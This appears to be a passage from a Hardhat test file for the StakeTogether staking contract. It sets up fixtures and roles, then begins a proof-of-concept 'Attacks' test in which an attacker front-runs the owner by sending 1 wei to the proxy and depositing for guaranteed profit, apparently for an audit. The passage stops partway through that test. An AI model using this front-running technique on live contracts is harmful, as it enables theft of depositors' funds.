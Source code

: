 ```javascript
    let user6: HardhatEthersSigner
    let user7: HardhatEthersSigner
    let user8: HardhatEthersSigner
    let nullAddress: string
    let ADMIN_ROLE: string
    let VALIDATOR_ORACLE_MANAGER_ROLE: string
    let VALIDATOR_ORACLE_ROLE: string
    let VALIDATOR_ORACLE_SENTINEL_ROLE: string
    let VALIDATOR_MANAGER_ROLE: string
    let initialBalance: bigint

    // Setting up the fixture before each test
    beforeEach(async function () {
        const fixture = await loadFixture(stakeTogetherFixture)
        stakeTogether = fixture.stakeTogether
        stakeTogetherProxy = fixture.stakeTogetherProxy
        mockRouter = fixture.mockRouter as unknown as MockRouter
        mockRouterProxy = fixture.mockRouterProxy
        withdrawals = fixture.withdrawals
        withdrawalsProxy = fixture.withdrawalsProxy
        owner = fixture.owner
        user1 = fixture.user1
        user2 = fixture.user2
        user3 = fixture.user3
        user4 = fixture.user4
        user5 = fixture.user5
        user6 = fixture.user6
        user7 = fixture.user7
        user8 = fixture.user8
        nullAddress = fixture.nullAddress
        ADMIN_ROLE = fixture.ADMIN_ROLE
        VALIDATOR_ORACLE_MANAGER_ROLE = fixture.VALIDATOR_ORACLE_MANAGER_ROLE
        VALIDATOR_ORACLE_ROLE = fixture.VALIDATOR_ORACLE_ROLE
        VALIDATOR_ORACLE_SENTINEL_ROLE = fixture.VALIDATOR_ORACLE_SENTINEL_ROLE
        VALIDATOR_MANAGER_ROLE = fixture.VALIDATOR_MANAGER_ROLE
        initialBalance = await ethers.provider.getBalance(stakeTogetherProxy)
    })
    
  // Group tests related to attack vectors under a single describe block for clarity
    describe.only('Attacks', function () {
        // Test case to demonstrate an attacker can front-run the owner's transaction for a quick profit
        it("should proof attacker can front run the owner's tx to get quick guaranteed profit", async function () {
            // Setup a pool address and a referral address for the test
            const poolAddress = user3.address
            const referral = user4.address
            // Add a pool to the contract setup by the owner
            await stakeTogether.connect(owner).addPool(poolAddress, true, false)

            // Record the attacker's ether balance before the attack
            const AttackerEtherBefore = await ethers.provider.getBalance(user1.address);
            
            // Attacker sends 1 wei to the contract, front-running the owner's transaction
            await user1.sendTransaction({ to: stakeTogetherProxy, value: ethers.parseUnits('1', 'wei') })

            // Attacker makes a deposit to the pool
            const user1DepositAmount = ethers.parseEther('1')
            const tx1 = await stakeTogether
                .connect(user1)
                .depositPool(poolAddress, referral, { value: user1DepositAmount })
            await tx1.wait()
```